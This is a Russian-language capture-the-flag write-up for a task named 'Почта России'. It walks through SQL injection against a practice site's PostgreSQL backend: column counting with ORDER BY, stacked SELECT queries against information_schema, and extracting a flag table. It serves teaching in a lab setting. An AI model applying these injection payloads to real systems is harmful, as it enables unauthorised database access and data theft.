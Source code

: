 # Почта России

## Условие

> Кажется, у кого-то база пользователей слита.. А нет ли там чего-то ещё, кроме данных пользователей? http://ctf6.nsychev.ru

## Решение таска

Похоже на то, что используется база данных. При проверке понимаем, что наш запрос не экранируется вообще никак. И действительно,
в базу данных отправляется запрос

```
    SELECT * FROM users WHERE id = {{input_field}}
```

Также интересен тот факт, что если вызвать два запроса `SELECT` через запятую, будет применен результат второго запроса.

Узнаем число столбцов в таблице:

```
    1 ORDER BY 1 // ОК
    1 ORDER BY 2 // OK
    1 ORDER BY 3 // OK
    1 ORDER BY 4 // Fail, 3 столбца
```

Перебираем фичи всех БД для получения списка таблиц, узнаем, что это *PostgreSQL*, а значит список таблиц получается
командой:

```
    1; SELECT 1, 1, table_name FROM information_schema.tables
```

Чтобы получать разные таблицы, в конец запроса добавляем `LIMIT 1 OFFSET x`. Увеличивая `x`, получаем таблицу `flag`.

Снова узнаем число столбцов:

```
    1; SELECT 1, 1, * FROM flag ORDER BY 1 // OK
    1; SELECT 1, 1, * FROM flag ORDER BY 2 // Error, 1 столбец
```

Кстати, заметим, что при первом запросе мы получили флаг: *UPML_INJ5271*
